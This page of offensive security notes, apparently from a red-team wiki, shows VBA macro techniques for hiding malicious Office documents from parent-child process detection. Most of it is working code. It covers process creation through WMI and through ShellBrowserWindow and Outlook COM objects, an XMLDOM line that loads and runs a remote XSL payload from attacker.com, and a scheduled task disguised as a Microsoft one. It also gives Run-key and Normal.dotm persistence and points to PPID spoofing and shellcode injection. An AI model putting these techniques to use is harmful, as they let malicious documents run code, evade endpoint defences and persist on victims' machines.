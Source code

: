 # ⭕ Dechaining Macros

#### Looking at the Parent/Child processes is a good indicator of malicious activity, for example MSWord spawning PowerShell is pretty suspicious. Here, we will show some techniques that can be used to evade these types of analysis.

## <mark style="color:red;">WMI</mark> <a href="#wmi" id="wmi"></a>

```vba
Sub MyMacro()
    Arg = "cmd /k calc.exe"
    GetObject("winmgmts:").Get("Win32_Process").Create Arg, Null, Null, pid
End Sub
```

```vba
// Some codeSet objWMIService = GetObject("winmgmts:{impersonationLevel=impersonate}!\\.\root\cimv2")
Set objStartup = objWMIService.Get("Win32_ProcessStartup")
Set objConfig = objStartup.SpawnInstance_
Set objProcess = GetObject("winmgmts:root\cimv2:Win32_Process")
errReturn = objProcess.Create("cmd.exe /k calc.exe", Null, objConfig, intProcessID)
```

This will make your process be spawned under "wmiprvse.exe."

## <mark style="color:red;">ShellBrowserWindow</mark> <a href="#shellbrowserwindow" id="shellbrowserwindow"></a>

```powershell
Set obj = GetObject("new:C08AFD90-F2A1-11D1-8455-00A0C91F3880")
obj.Document.Application.ShellExecute "calc",Null,"C:\\Windows\\System32",Null,0
```

This will make your process spawn from under "explorer.exe"

## <mark style="color:red;">XMLDOM</mark> <a href="#xmldom" id="xmldom"></a>

```vba
Set xml = CreateObject("Microsoft.XMLDOM")
xml.async = False
Set xsl = xml
xsl.load("http://attacker.com/payload.xsl")
xml.transformNode xsl
```

## <mark style="color:red;">Scheduled Tasks</mark> <a href="#3e76" id="3e76"></a>

```vba
Set service = CreateObject("Schedule.Service")
Call service.Connect
Dim td: Set td = service.NewTask(0)
td.RegistrationInfo.Author = "Microsoft Corporation"
td.settings.StartWhenAvailable = True
td.settings.Hidden = False
Dim triggers: Set triggers = td.triggers
Dim trigger: Set trigger = triggers.Create(1)
Dim startTime: ts = DateAdd("s", 30, Now)
startTime = Year(ts) & "-" & Right(Month(ts), 2) & "-" & Right(Day(ts), 2) & "T" & Right(Hour(ts), 2) & ":" & Right(Minute(ts), 2) & ":" & Right(Second(ts), 2)
trigger.StartBoundary = startTime
trigger.ID = "TimeTriggerId"
Dim Action: Set Action = td.Actions.Create(0)
Action.Path = "C:\Windows\System32\notepad.exe"
Call service.GetFolder("\").RegisterTaskDefinition("UpdateTask", td, 6, , , 3)
```

## <mark style="color:red;">Registry Keys</mark> <a href="#registry-keys" id="registry-keys"></a>

We can modify the registry which can serve as persistence and a way of executing your code.&#x20;

#### WMI:

```vba
Set objRegistry = GetObject("winmgmts:\\.\root\default:StdRegProv")
objRegistry.SetStringValue &H80000001, "Software\Microsoft\Windows\CurrentVersion\Run", "key1", "value1"
```

#### Wscript:

```vba
Set WshShell = CreateObject("WScript.Shell")
WshShell.regwrite "HKCU\Software\Microsoft\Windows\CurrentVersion\Run\key2", "value2", "REG_SZ
```

## <mark style="color:red;">PPID Spoofing & Command Line Spoofing</mark>&#x20;

Basically we can spoof the parent by passing an arbitrary parent process name you want to use with the CreateProcessA function. We can also spoof the command line arguments by modifying the “CommandLine” in the RTL\_USER\_PROCESS\_PARAMETERS structure in the PEB.

&#x20;The implementation in VBA is here:

{% embed url="https://github.com/christophetd/spoofing-office-macro/blob/master/macro64.vba" %}

## <mark style="color:red;">Injecting Shellcode</mark> <a href="#injecting-shellcode" id="injecting-shellcode"></a>

Injecting our shellcode to a remote process can make our payload live in another process, although this is not a parent-child evasion technique, we can make our payload live in a remote process.

#### see [injectors/runners](runners-injectors-loaders.md) section.

## <mark style="color:red;">Template persistence</mark>

```vba
Set objShell = CreateObject("Wscript.Shell")
appDataLocation = objShell.ExpandEnvironmentStrings("%APPDATA%")
Path = appDataLocation & "\Microsoft\Templates"
Set objFSO = CreateObject("Scripting.FileSystemObject")
Set objFile = objFSO.CreateTextFile(Path & "\Normal.dotm", True)
objFile.Write payload
objFile.Close
```

## <mark style="color:red;">Outlook</mark> <a href="#outlook" id="outlook"></a>

```vba
Set obj = GetObject("new:0006F03A-0000-0000-C000-000000000046")
obj.CreateObject("WScript.Shell").Run ("calc.exe")
```
